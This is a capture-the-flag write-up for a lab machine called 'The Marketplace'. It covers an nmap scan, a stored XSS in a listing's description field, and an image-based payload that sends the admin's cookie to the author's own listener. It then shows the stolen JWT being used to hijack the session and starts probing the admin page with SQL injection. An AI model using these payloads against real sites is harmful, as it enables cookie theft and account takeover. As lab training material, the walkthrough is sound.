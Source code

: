 # The Marketplace
## Difficulty: Medium

Let's start with nmap scan:
```bash
nmap -sV -sC 10.10.243.219 | tee nmap/start
```

The results:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c83cc56265eb7f5d9224e93b11b523b9 (RSA)
|   256 06b799940b091439e17fbfc75f99d39f (ECDSA)
|_  256 0a75bea260c62b8adf4f457161ab60b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The SSH version is high enough to not be vulnerable, so I'll start with the http service.

In the scan it also found that in the robots.txt directory there is an "/admin" directory.

![image](https://user-images.githubusercontent.com/114166939/232095399-3b9e8fbb-7b3c-458f-8a36-1401c960d4cb.png)

It's forbidden:

![image](https://user-images.githubusercontent.com/114166939/232224360-2a9fe600-df3f-4528-94c9-cb36032fcfc6.png)


I'll sign up with a test account:

username = test,

password = test

![image](https://user-images.githubusercontent.com/114166939/232096934-f68dfe06-c1d5-490a-b58b-ab601e0f38af.png)

Success!

Now let's login to this user:
Success!

![image](https://user-images.githubusercontent.com/114166939/232097504-f3174c72-dcdc-46f5-b534-c4b3c167054a.png)

Also noticed I have cookie now - using the cookie manager firefox extension.

![image](https://user-images.githubusercontent.com/114166939/232098050-972050bf-9921-4b3d-b38a-9164f17e2832.png)

By using CyberChef (from "https://gchq.github.io/CyberChef/") I can understand what type of encode this server use and what is the data stored in the cookie.

![image](https://user-images.githubusercontent.com/114166939/232099019-3d27ee92-fea8-4aaa-9126-7386e1e678bc.png)

```
{
    "userId": 4,
    "username": "test",
    "admin": false,
    "iat": 1681488332
}
```

So the server probably identify the users by "userId" and "username" parameters.

This information will be important in the near future!

Let's move on to the New listing ("http://10.10.243.219/new") page:

![image](https://user-images.githubusercontent.com/114166939/232100022-ae881109-485a-4a4f-8020-d827fb8569c4.png)

I'll try exploit this page with xss payloads,
For beginning I'll try the simplest exploit in the title input:
```html
<script>alert(1)</script>
```
Didn't work:

![image](https://user-images.githubusercontent.com/114166939/232100940-7a66c85d-2dbd-4908-b04c-aad6c5327ceb.png)

Let's try in the description input:

![image](https://user-images.githubusercontent.com/114166939/232101091-70b6a894-ece1-420a-a82d-63718944d837.png)

It works!

![image](https://user-images.githubusercontent.com/114166939/232224429-f9fe1f0b-75dc-40fc-89b3-f7148081f11f.png)

Also when I'm going to the home page and clicking on this listing the alert pops out.
It is a reflected and stored xss!

The 2 options for this listing are: "Contact the listing author" and 
"Report listing to admins" - when I report the listing the following message appear:

![image](https://user-images.githubusercontent.com/114166939/232110868-dbbdf845-0b1e-4333-834b-67b03616991e.png)

Which means that after I reported the listing an admin opened it!
If that's the case I can try steal the admin's cookie.

I'll use a code from this github page "https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md":
(The Silent One-Liner)
```html
<script>var i=new Image;i.src="http://[IP]:[PORT]/?"+document.cookie;</script>
```
It need to be modified as my tun0 IP and port.

Before add the listing, I'll establish python3 server on my attacker machine:
```bash
python3 -m http.server
```
Now I'll add the exploit:

![image](https://user-images.githubusercontent.com/114166939/232113668-933bb211-5ef9-4292-883c-694e716b164e.png)

Report this listing:

![image](https://user-images.githubusercontent.com/114166939/232113844-a5f8b17e-37d0-486d-bd42-e5f3e1ef06e2.png)

Refresh and let's take a look at my python3 server!

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.14.50.11 - - [14/Apr/2023 13:20:31] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjgxNDg4MzMyfQ.LOu-eEsb_vaK-pZ8xZjVHvaVNuFRjRzyq3yAps2tAnY HTTP/1.1" 200 -

10.10.243.219 - - [14/Apr/2023 13:21:26] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODE0OTI4ODd9.YI1C9_Iu632z1-0xDX1jm0DUeFwiGgqiDR1joEGcKzw HTTP/1.1" 200 -
```

The first one is my current user cookie, the same one as I checked in my cookie manager extension.

The second request I got have different cookie!
Probably the admin's user cookie, I'll check it in CyberChef:

![image](https://user-images.githubusercontent.com/114166939/232114890-be430831-c00a-4d33-a986-4fdc666f62ee.png)

It's michael's cookie.

Now I can change the current user cookie with michael's user cookie - I'll do it with cookie manager:

Copy the token from the request, delete the current cookie, paste michael's cookie and save.

![image](https://user-images.githubusercontent.com/114166939/232116054-9115e1c8-2f66-41e3-af69-4716606596f0.png)


Refresh on the home page:

![image](https://user-images.githubusercontent.com/114166939/232116191-be8c47ea-9607-4b36-a73f-d35913a8fb9e.png)

There is a new option in the website, "Administration panel", it redirect to the "/admin" directory.

Got the first flag:

![image](https://user-images.githubusercontent.com/114166939/232116820-b3ed3d55-4cfd-415c-b758-86d5308e4c77.png)

Now let's click on the system user:

![image](https://user-images.githubusercontent.com/114166939/232224601-1d468d6d-be9f-4319-863a-329525949f36.png)

This page use GET method and maybe vulnerable to sqli in the "user" parameter - "http://10.10.243.219/admin?user=1".

The easiest way to test the url is to add ' and check its response:
```url
http://10.10.243.219/admin?user=1'
```

![image](https://user-images.githubusercontent.com/114166939/232117835-abc95af0-4082-4703-929a-afa263519e99.png)

It's probably vulnerable, also it written that this website use MySQL server!

Let's try find out how much columns are in the tables of this DataBase with SQL injection to the url:
```url
http://10.10.243.219/admin?user=1 order by 1-- -
```

It responded the same, than I'll increase the column numbers until the website will response differently:

```

```










